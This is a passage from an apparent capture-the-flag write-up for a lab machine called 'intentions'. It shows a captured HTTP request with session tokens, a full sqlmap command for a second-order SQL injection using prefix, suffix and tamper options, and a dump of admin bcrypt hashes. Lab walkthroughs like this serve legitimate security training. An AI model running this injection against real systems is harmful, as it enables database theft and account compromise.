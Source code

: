 # SQL Injection - Second request
```
GET /api/v1/gallery/user/feed HTTP/1.1
Host: 10.129.157.82
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.157.82/gallery
X-Requested-With: XMLHttpRequest
X-XSRF-TOKEN: eyJpdiI6InBYUngxR20yengyandXelU2SS8rOHc9PSIsInZhbHVlIjoiRjA5NVdoV0YyMVVkdThkbjJTbVJ5NGMyYklHYTMxQmx4S25HY0NCQ3ZiUk1RY3BuNDA4WW85MDduZkM0ZjdxemlSblFsSkZ2cjdjKzRsN0hFd3FLQ0hlZGVBbVBlQTJJUzdmWGhrSFNzVk1naFdTYnhpc1ZkSzZ3NHk2d3NjMkgiLCJtYWMiOiI2ZGU1OGY0NDA1NGEyYzE2ZWUyYTBmODg5YTUzMDM0MTg0MzNkMzNmNDM5NWUzOWM3Y2FkZDE4ODQ1M2JjNWQxIiwidGFnIjoiIn0=
DNT: 1
Connection: close
Cookie: XSRF-TOKEN=eyJpdiI6InBYUngxR20yengyandXelU2SS8rOHc9PSIsInZhbHVlIjoiRjA5NVdoV0YyMVVkdThkbjJTbVJ5NGMyYklHYTMxQmx4S25HY0NCQ3ZiUk1RY3BuNDA4WW85MDduZkM0ZjdxemlSblFsSkZ2cjdjKzRsN0hFd3FLQ0hlZGVBbVBlQTJJUzdmWGhrSFNzVk1naFdTYnhpc1ZkSzZ3NHk2d3NjMkgiLCJtYWMiOiI2ZGU1OGY0NDA1NGEyYzE2ZWUyYTBmODg5YTUzMDM0MTg0MzNkMzNmNDM5NWUzOWM3Y2FkZDE4ODQ1M2JjNWQxIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IkJoWHJXblY2c0hZMldmZkNnb2J3QkE9PSIsInZhbHVlIjoiMzA3aU5nc2swS2dSMmwzT3dibVROMm5IRFRUck5xaUg5U2FyZHJMSTdDb3R1M1FjWXlBMG9qaEI2eFJOY2cyWXU5SGo3dzFiL3dLZzEvNnVGeFovT0FrRTdlanVldjZMd3NmUjUrQmRHRDdkWE9FT1hZRCs5aHlHdVZMWmt3cE4iLCJtYWMiOiI0MmUwOGQyY2VhNjZjMDg3ZDY5MzZiMTM0MzhjYzU1MTJhNDc2MzAwNmQ3ODZhYjdmNmE5ZGYzODI1MWNlY2VhIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE1Ny44Mi9hcGkvdjEvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODMzNTgyOSwiZXhwIjoxNjg4MzU3NDI5LCJuYmYiOjE2ODgzMzU4MjksImp0aSI6IjVaWTRhYmJzTHJpeFl4cGciLCJzdWIiOiIzMSIsInBydiI6IjIzYmQ1Yzg5NDlmNjAwYWRiMzllNzAxYzQwMDg3MmRiN2E1OTc2ZjcifQ.VxW7rkDBjacovDeykLxJNrsOKPXnWFwrbsrgh7p5aPo
```
# SQL Injection - Final

The injection would only work with a prefix and suffix as shown below. The web application was also stripping spaces so space2comment was used to fix that.

`sqlmap -r 1.req --prefix="food') " --suffix="#" --second-req 2.req --batch --dbms=mysql --level 5 --risk 3 --tamper=space2comment.py --dbs`
# SQL Injection - Results

Database dumped and the only useful information was the below hashes of administrator accounts. The hashes themselves could not be cracked easily as bcrypt. 
```
id,name,admin,email,genres,password,created_at,updated_at
1,steve,1,steve@intentions.htb,"food,travel,nature",$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa,2023-02-02 17:43:00,2023-02-02 17:43:00
2,greg,1,greg@intentions.htb,"food,travel,nature",$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m,2023-02-02 17:44:11,2023-02-02 17:44:11
3,Melisa Runolfsson,0,hettie.rutherford@example.org,"food,travel,nature",$2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6,2023-02-02 18:02:37,2023-02-02 18:02:37
```
# Hidden API - v2 login accepts hashes
